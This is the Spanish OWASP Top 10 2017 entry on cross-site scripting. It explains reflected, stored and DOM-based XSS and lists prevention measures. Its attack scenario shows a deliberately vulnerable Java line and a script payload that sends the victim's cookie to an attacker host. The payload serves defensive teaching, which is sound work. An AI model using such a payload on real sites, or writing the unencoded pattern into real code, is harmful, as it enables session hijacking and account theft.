 # A7:2017 Secuencia de Comandos en Sitios Cruzados (XSS)

| Agentes de amenaza/Vectores de ataque | Debilidades de seguridad         |      Impactos       |
| -- | -- | -- |
| Nivel de acceso : Explotabilidad 3    | Prevalencia 3 : Detectabilidad 3 | Técnico 2 : Negocio |
| Existen herramientas automatizadas pueden detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. | XSS es la segunda vulnerablidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instlación de software malicioso en el equipo de la víctima. |

## ¿La aplicación es vulnerable?

Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:

* **XSS Reflejado**: La aplicación o API utiliza datos suministrados por un usuario sin ser validados o codificados apropiadamente como parte del HTML de salida o cuando no existe un cabezal que establezca la política de seguridad de contenido ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)). Un ataque exitoso puede permitir al atacante ejecutar comandos arbitrarios HTML y Javascript en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
* **XSS Almacenado**: La aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, la que posteriormente es entregada a otro usuario o un administrador. XSS Almacenado es usualmente considerado como de riesgo de nivel alto o crítico.
* **XSS Basados en DOM**: Frameworks en JavaScript, aplicaciones de página única o APIs que dinámicamente incluyen datos controlables por un atacante son vulnerables al DOM XSS. Idealmente, se debe evitar enviar datos controlables por el atacante a APIs no seguras.

Típicamente los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, evasión de autentificación de múltiples pasos, reemplazo de DIV o degradación (como troyanos de autentificación), ataques contra el navegador del usuario como la descarga de software malicioso, grabadores de tecleo, y otros tipos de ataques al lado cliente.


## ¿Como prevenirlo?

Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.

* Utilizar marcos de trabajo seguros que por diseño automáticamente codifiquen el contenido para prevevenir XSS, como en Ruby 3.0 o React JS.
* Codificar datos de requerimientos HTTP no confiables en el contexto de la salida de HTML (cuerpo, atributos, JavaScript, CSS, o URL) resolverán las vulnerabilidades del tipo XSS Reflejado y XSS Almacenado. La hoja de trucos [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) tiene detalles de las técnicas de codificación de datos requeridas.
* Aplicar codificación sensitiva al contexto cuando se modifica el documento en el navegador en el lado cliente, ayuda a prevevenir DOM XSS. Cuando esta técnica no se puede aplicar, técnicas similares de codificación sensitiva se pueden aplicar a las APIs del navegador, como se explica en la hoja de trucos [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Habilitar una Política de Seguridad de Contenido [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales como sobreescritura de caminos (path traversal overwrite), o bibliotecas vulnerables de fuentes conocidas, como redes de distribución de contenidos (CDN) o bibliotecas locales.


## Ejemplos de escenarios de ataques

**Escenario #1**: La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validarlos o codificarlos:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

El atacante modifica el parámetro “CC” en el navegador a:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario.

**Note**: Atacantes pueden también utilizar XSS para anular cualquier defensa contra Falsificación de Peticiones en Sitios Cruzados (CSRF) que la aplicación pueda utilizar.

## Referencias (en Inglés)

### OWASP

* [Controles Proactivos de OWASP - #3 Codificación de datos](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Controles Proactivos de OWASP - #4 Validación de datos](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [Estándar de Verificación de Seguridad en Aplicaciones de OWASP - V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [Guía de Pruebas de OWASP: Pruebas para XSS Reflejados](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Guía de Pruebas de OWASP: Pruebas para XSS Almacenados](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [Guía de Pruebas de OWASP: Pruebas para XSS basados en DMO](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [Hoja de ayuda de OWASP - Prevención de XSS](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [Hoja de ayuda de OWASP - Prevención de XSS basado en DOM](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [Hoja de ayuda de OWASP - Evación de filtros de XSS](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### Externas

* [CWE-79 Inapropiada neutralización de entradas de datos suministradas por usuarios](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Plantillas para la inyección del lado del cliente](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
